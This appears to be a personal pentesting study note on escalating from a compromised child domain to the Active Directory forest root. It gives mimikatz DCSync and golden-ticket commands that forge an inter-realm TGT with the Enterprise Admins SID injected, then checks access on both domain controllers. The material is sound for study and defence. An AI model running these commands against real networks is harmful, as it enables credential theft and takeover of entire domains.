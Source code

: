# Exploiting domain trusts

### Resources

1. **DCSync attack**

{% embed url="https://www.extrahop.com/resources/attacks/dcsync" %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync" %}

2. **Kerberos notes**

{% embed url="https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/kerberos" %}

3. **Additional domain trusts exploitation resources**

{% embed url="https://redfoxsec.com/blog/domain-trusts-exploitation-playbook/" %}

4. **KERB\_VALIDATION\_INFO**

* A structure where the `ExtraSids` field is specified

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73" %}

### Terminologies

1. **Kerberos Ticket Granting Ticket** _(_**KRBTGT**)

* The service account for the Key Distribution Center (KDC) service
* This account is used to encrypt and sign all Kerberos tickets for the domain



2. **Golden ticket**

* A TGT is signed with the **KRBTGT** account's password hash
* Thus, with access to this hash, we will be able to forge a TGT for any user of our choice
* This ticket is known as a "_**Golden Ticket**_"

### Overview of exploiting domain trusts

In this attack, we abuse the trusts between domains in a forest. A particular trust between a parent and child domain can be exploited to forge an **Inter-Realm TGT**, that can be used to gain access to the parent domain with a particular privilege (refer to the sections below for more information).

#### Golden Ticket attack

Refer to the "_**Terminologies**_" section above for more details on the Golden Ticket.

In a Golden Ticket attack, an attacker who has obtained the **KRBTGT** account hash for a domain can forge their own Ticket Granting Ticket (TGT) for any user of their choice. This forged TGT, known as a Golden Ticket (signed with the **KRBTGT** hash) will appear valid to the domain’s Key Distribution Center (KDC).&#x20;

This particular TGT can be used to request service tickets (TGS) for any service as the specified user, effectively gaining unrestricted access within the domain (eg. _Administrator_).

> Note that without domain trust relationships, a golden ticket crafted for a particular domain will only work within that domain. Refer to the **Inter-realm TGT**s section below to understand how domain trusts can be exploited to further our privileges to other domains.

#### DC Sync attack

Given that we have obtained administrative privileges on a machine, we can perform a DC Sync attack to recover the **KRBTGT** account password hash. The found hash can be used to create an Inter-Realm TGT to exploit any domain trust configurations.

#### Inter-Realm TGTs

Inter-Realm TGTs are used to provide access to resources in other domains. A two-way relationship between a child and parent domain can be exploited to gain full access to the parent domain (refer to example below).&#x20;

### Example

Given that have compromised a child domain `A.DOMAIN.LOC`  with Tier 0 privileges. We can exploit the default bidirectional trust between the child and parent domain (`DOMAIN.LOC` ) to gain full access to the forest root domain.&#x20;

> Since there is only a single tree in the forest, the root/parent domain of the tree will be forest root domain.

Since we have Tier 0 admin privileges, we can perform a DC Sync to retrieve the **KRBTGT** password hash from our compromised machine:

{% code overflow="wrap" %}
```powershell
mimikatz # lsadump::dcsync /user:<domain>\krbtgt
...
Hash NTLM: xxxx
...
```
{% endcode %}

#### Inter-Realm TGT

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/general/golden-ticket" %}

Before we can create the Inter-Realm TGT, we need to retrieve SIDs for the following:

a. Child domain controller (eg. `DC.A.DOMAIN.LOC`), which we will impersonate in our forged TGT

b. **Enterprise Admins** group in the parent domain (eg. `ROOTDC.DOMAIN.LOC`), to be used as the extra SID in our forged TGT (more information below)

We can use the AD-RSAT Powershell cmdlets to retrieve the values:

{% code overflow="wrap" %}
```powershell
PS> Get-ADComputer -Identity "DC"
...
SID: xxxx
PS> Get-ADGroup -Identity "Enterprise Admins" -Server ROOTDC.DOMAIN.LOC
...
SID: xxxx
```
{% endcode %}

Now, we can craft the Inter-Realm TGT:

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:Administrator /domain:<child domain> /sid:<SID of child domain controller> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```
{% endcode %}

a. `/user:Administrator` : Specify that we are impersonating the Administrator user

b. `/domain` : To specify the child domain (the one we have compromised)

c. `/sid` : SID of the child DC that we have found earlier

d. `/rc4` : Password hash of the KRBTGT user. This is the value we retrieved from the DC Sync attack earlier

e. `/sids` : SID of the Enterprise Admins group that we have found earlier

f. `/ptt` : Perform pass-the-ticket to load the ticket to memory

Essentially, we are exploiting the trust that the parent domain has with our child domain (via the bidirectional trust relationship enabled by default within the tree) to trick the parent domain into providing us with privileges of the `Enterprise Admins` group via the `ExtraSids` section (`/sids`) of the Privilege Attribute Certificate (PAC) [KERB\_VALIDATION\_INFO](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73) structure, granting us administrative privileges over the entire forest.

**Test the validity of our generated tickets**

Now, we can perform a directory search on the child and parent DC to identify if we have generated valid tickets for the child and parent domains respectively.

{% code overflow="wrap" %}
```powershell
C:\> dir \\DC.A.DOMAIN.LOC\c$
 Volume in drive \\DC.A.DOMAIN.LOC\c$ is Windows
 Volume Serial Number is xxx

 Directory of \\DC.A.DOMAIN.LOC\c$

xxxx
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
C:\> dir \\ROOTDC.DOMAIN.LOC\c$
 Volume in drive \\ROOTDC.DOMAIN.LOC\c$ is Windows
 Volume Serial Number is xxxx

 Directory of \\ROOTDC.DOMAIN.LOC\c$
 
 xxxx
```
{% endcode %}

We can confirm that our tickets are valid if we are able to view the directory listings.&#x20;

Next, we use the generated ticket for the parent domain domain controller (`ROOTDC.DOMAIN.LOC`) to perform any actions of our choice. &#x20;

Since `DOMAIN.LOC` is the only domain created in the forest, this makes it the forest root domain, which makes the domain controller (`ROOTDC.DOMAIN.LOC`) the forest root domain controller. This means that we now have full access to the forest root domain.


